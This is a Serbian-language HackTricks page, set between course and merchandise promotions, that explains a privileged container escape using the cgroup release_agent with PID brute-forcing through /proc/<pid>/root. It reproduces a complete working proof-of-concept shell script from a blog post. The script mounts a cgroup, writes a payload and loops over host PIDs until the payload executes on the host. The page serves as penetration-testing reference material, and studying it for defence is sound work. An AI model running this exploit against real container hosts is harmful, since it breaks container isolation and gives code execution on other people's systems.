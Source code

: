 # release\_agent exploit - Relative Paths to PIDs

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Za dalje detalje **proverite blog post sa** [**https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html**](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html). Ovo je samo sažetak:

Tehnika opisuje metod za **izvršavanje host koda iz kontejnera**, prevazilazeći izazove koje postavljaju konfiguracije storage drajvera koje prikrivaju putanju kontejnera na hostu, poput Kata kontejnera ili specifičnih `devicemapper` podešavanja.

Ključni koraci:

1. **Lociranje Process ID-eva (PID-ova):** Korišćenjem simboličke veze `/proc/<pid>/root` u Linux pseudo-fajl sistemu, bilo koji fajl unutar kontejnera može se pristupiti relativno u odnosu na fajl sistem hosta. Ovo zaobilazi potrebu za poznavanjem putanje fajl sistema kontejnera na hostu.
2. **Brute Force PID:** Koristi se metoda grubog sile za pretragu PID-ova na hostu. Ovo se postiže sekvenčnim proveravanjem prisustva određenog fajla na putanji `/proc/<pid>/root/<file>`. Kada se fajl pronađe, to ukazuje da odgovarajući PID pripada procesu koji se izvršava unutar ciljnog kontejnera.
3. **Pokretanje Izvršavanja:** Pretpostavljena putanja PID-a se upisuje u fajl `cgroups release_agent`. Ova akcija pokreće izvršavanje `release_agent`-a. Uspeh ovog koraka se potvrđuje proverom kreiranja izlaznog fajla.

#### Proces eksploatacije

Proces eksploatacije uključuje detaljniji set akcija, sa ciljem izvršavanja payload-a na hostu pogađanjem tačnog PID-a procesa koji se izvršava unutar kontejnera. Evo kako se odvija:

1. **Inicijalizacija Okruženja:** Skripta payload-a (`payload.sh`) se priprema na hostu, i kreira se jedinstveni direktorijum za manipulaciju cgroup-om.
2. **Priprema Payload-a:** Payload skripta, koja sadrži komande koje će se izvršiti na hostu, se piše i čini izvršivom.
3. **Podešavanje Cgroup-a:** Cgroup se montira i konfiguriše. Zastavica `notify_on_release` se postavlja kako bi se osiguralo da payload izvrši kada se cgroup oslobodi.
4. **Brute Force PID:** Petlja prolazi kroz potencijalne PID-ove, upisujući svaki pretpostavljeni PID u fajl `release_agent`. Ovo efektivno postavlja payload skriptu kao `release_agent`.
5. **Pokretanje i Provera Izvršavanja:** Za svaki PID, upisuje se `cgroup.procs` cgroup-a, pokrećući izvršavanje `release_agent`-a ako je PID tačan. Petlja se nastavlja dok se ne pronađe izlaz payload skripte, što ukazuje na uspešno izvršavanje.

PoC iz blog posta:

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRETPLATU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
